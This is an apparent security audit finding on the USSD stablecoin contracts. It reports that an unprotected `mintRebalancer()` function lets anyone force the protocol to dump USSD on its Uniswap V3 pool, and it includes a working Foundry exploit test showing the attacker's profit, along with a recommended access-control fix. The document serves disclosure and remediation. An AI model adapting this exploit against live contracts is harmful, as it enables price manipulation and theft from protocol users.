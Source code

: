 0xyPhilic

high

# Attacker can force protocol to dump USSD price on UniV3 Pool

## Summary

The protocol allows anyone to invoke the `rebalance()` function in `USSDRebalancer.sol` contract in order to restore the peg either up or down on the UniswapV3 USSD/DAI pool. During the rebalancing the contract checks if the price on Uniswap is above or below a given threshold and executes either a sell of USSD and buy of collateral (peg-down) or sell of collateral and buy of USSD (peg-up). During the peg-down process the Rebalancer contract mints a certain amount of USSD by calling `mintRebalancer()` function on `USSD.sol`, which is then sold on the UniswapV3 pool for DAI and the DAI is converted to other supported collaterals based on pre-set ratios.

## Vulnerability Detail

The vulnerability comes from the `mintRebalancer()` function which is set to `public` and has no access control specified. This allows an attacker to force the protocol to sell way more USSD when the peg-down operation happens during the `rebalance()` process. The only pre-requisite is that the current price on the UniswapV3 pool is higher than the set threshold on the protocol side in order for the rebalancing flow to enter in the following code block:

```solidity
else if (ownval > 1e6 + threshold) {
        // mint and buy collateral
        // never sell too much USSD for DAI so it 'overshoots' (becomes more in quantity than DAI on the pool)
        // otherwise could be arbitraged through mint/redeem
        // the execution difference due to fee should be taken into accounting too
        // take 1% safety margin (estimated as 2 x 0.5% fee)
        IUSSD(USSD).mintRebalancer(((DAIamount / 1e12 - USSDamount)/2) * 99 / 100); // mint ourselves amount till balance recover
        SellUSSDBuyCollateral();
      }
```

Since the `SellUSSDBuyCollateral()` internally uses the entire USSD balance of `USSD.sol` as an amount to sell, the attacker can inflate the balance before calling `rebalance()` by invoking `mintRebalancer()` which just mints a specified amount of USSD and keeps it on the `USSD.sol` contract. (https://github.com/sherlock-audit/2023-05-USSD/blob/main/ussd-contracts/contracts/USSD.sol#L204-L206)

The `rebalance()` flow will just proceed selling all the amount on the UniswapV3 USSD/DAI pool.

## Impact

This vulnerability will cause a significant dump on the UniswapV3 USSD/DAI price which can be used by the attacker to scoop USSD from the pool at extremely cheap prices. Moreover the peg would be lost, which could significantly affect any external integrations that rely on the UniswapV3 pool to compute the price of USSD (i.e. lending protocols etc.). After buying cheap USSD from the UniswapV3 pool the attacker can potentially call `rebalance()` again to force the protocol to sell collateral from the reserves and purchase USSD from the pool in order to restore the peg, which would allow the attacker to sell his/hers USSD after with a potentially significant profit.

The current lack of slippage parameter in the `UniV3SwapInput()` function in the `USSD.sol` contract allows this attack to also negatively impact the protocol as due to significant slippage a lot less collateral will be received thus lowering the collateraliazation ratio of the stable coin. Note that even with a set slippage the possibility for the attacker to `mint` tokens could block the `rebalance()` functionality and put the protocol in a temporary DoS state. 

## Code Snippet

Note: The liquidity for the USSD/DAI pair on UniswapV3 is spread across the full range - same as in the `USSDsimulator.test.js`.

```solidity
        int24 lowerTick = -880000;
        int24 upperTick = 880000;
```

Running the following test shows that the `attacker` leverages the exploit to turn 1000 DAI to 1321.481076384914247325 DAI, giving him ~321 DAI in pure profit.

```solidity
function test_exploitOpenMint() external {
        // Alice buys USSD from the UniswapV3 USSD/DAI pool pushing the price up above threshold
        vm.startPrank(_alice);
        _dai.approve(address(_uniRouter), type(uint256).max);
        IV3SwapRouter.ExactInputSingleParams memory params = IV3SwapRouter.ExactInputSingleParams({
            tokenIn: address(_dai),
            tokenOut: address(_ussd),
            fee: uint24(500),
            recipient: _alice,
            amountIn: 500e18,
            amountOutMinimum: 0,
            sqrtPriceLimitX96: 0
        });
        _uniRouter.exactInputSingle(params);
        vm.stopPrank();
        // Bob is a regular user who mints USSD by directly depositing DAI in the contract
        vm.startPrank(_bob);
        _dai.approve(address(_ussd), type(uint256).max);
        _ussd.mintForToken(address(_dai), 3000e18, _bob);
        vm.stopPrank();
        // Attacker calls open mintRebalancer() function after which executes rebalance
        // causing the protocol to sell way more than expected dumping significantly
        // the price on the UniswapV3 USSD/DAI pool
        vm.startPrank(_attacker);
        _ussd.mintRebalancer(3000e6);
        _ussd.approveToRouter(address(_ussd));
        _ussd.approveToRouter(address(_dai));
        _rebalancer.rebalance();
        console.log("Valuation after Exploit Mint: ", _rebalancer.getOwnValuation());
        // Attacker buys cheap USSD from the pool - for 2000 DAI in this case he receives 2683 USSD (due to slippage and low liquidity)
        _dai.approve(address(_uniRouter), type(uint256).max);
        IV3SwapRouter.ExactInputSingleParams memory attackParams = IV3SwapRouter.ExactInputSingleParams({
            tokenIn: address(_dai),
            tokenOut: address(_ussd),
            fee: uint24(500),
            recipient: _attacker,
            amountIn: 1000e18,
            amountOutMinimum: 0,
            sqrtPriceLimitX96: 0
        });
        _uniRouter.exactInputSingle(attackParams);
        console.log("Balance of Attacker after mint: ", _ussd.balanceOf(_attacker));
        _rebalancer.rebalance();
        IV3SwapRouter.ExactInputSingleParams memory sellForProfitParams = IV3SwapRouter.ExactInputSingleParams({
            tokenIn: address(_ussd),
            tokenOut: address(_dai),
            fee: uint24(500),
            recipient: _attacker,
            amountIn: _ussd.balanceOf(_attacker),
            amountOutMinimum: 0,
            sqrtPriceLimitX96: 0
        });
        _ussd.approve(address(_uniRouter), type(uint256).max);
        uint256 amountReceived = _uniRouter.exactInputSingle(sellForProfitParams);
        vm.stopPrank();
        assertGt(amountReceived, 1000e18);
    }
```

## Tool used

Manual Review / Foundry

## Recommendation

Add the `onlyBalancer()` modifier to the `mintRebalancer()` function. This would not allow anyone except the Rebalancer contract to mint USSD without collateral which is needed for the peg-down operations during the `rebalance()` process.
